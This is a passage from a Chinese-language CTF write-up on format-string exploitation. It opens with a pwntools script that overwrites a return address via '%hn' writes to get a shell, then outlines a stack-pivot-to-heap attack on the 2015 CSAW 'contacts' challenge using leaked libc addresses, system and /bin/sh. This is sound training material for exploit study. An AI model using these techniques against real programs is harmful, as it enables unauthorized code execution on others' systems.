 ```py
sh.sendline("1")
sh.recvuntil("0x")
ret_addr = int(sh.recvline().strip(),16) - 0x38
success("ret_addr:"+hex(ret_addr))

sh.recv()
sh.sendline("2")
sh.recv()
sh.sendline(p64(ret_addr))
sh.recv()
#sh.writeline("%2214d%8$hn")
#0x4008aa-0x4008a6
sh.sendline("%2218d%8$hn")

sh.recv()
sh.sendline("1")
sh.recv()
sh.interactive()
```

## 堆上的格式化字符串漏洞 

 2015 年 CSAW 中的 [contacts](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/2015-CSAW-contacts) 

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594862766547-98dcb178-9b1e-40a8-8133-e6249a3d0de3.png)

![image.png](https://cdn.nlark.com/yuque/0/2020/png/403807/1594862939776-436a690c-0670-4c68-9076-a0aa7c210f0c.png)

仔细看看，可以发现这个 format 其实是指向堆中的。

**程序中压入栈中的 ebp 值其实保存的是上一个函数的保存 ebp 值的地址**，所以我们可以修改其**上层函数的保存的 ebp 的值，即上上层函数（即 main 函数）的 ebp 数值**。这样当上层程序返回时，即实现了将栈迁移到堆的操作。

基本思路如下

- 首先获取 system 函数的地址

- - 通过泄露某个 libc 函数的地址根据 libc database 确定。

- 构造 system_addr + 'bbbb' + binsh_addr
- 修改上层函数保存的 ebp(即上上层函数的 ebp) 为**存储 system_addr 的地址 -4**。
- 当主程序返回时，会有如下操作

- - move esp,ebp，将 esp 指向 system_addr 的地址 - 4
  - pop ebp， 将 esp 指向 system_addr
  - ret，将 eip 指向 system_addr，从而获取 shell。

首先，我们根据栈上存储的 libc_start_main_ret 地址 (该地址是当 main 函数执行返回时会运行的函数) 来获取 system 函数地址、/bin/sh 地址。

在printf下断点，然后算出偏移为31

其次，我们可以确定栈上存储格式化字符串的地址 0xffffcd2c 相对于格式化字符串的偏移为 11

再者，我们可以看出下面的地址保存着上层函数的调用地址，其相对于格式化字符串的偏移为 6，这样我们可以直接修改上层函数存储的 ebp 的值。
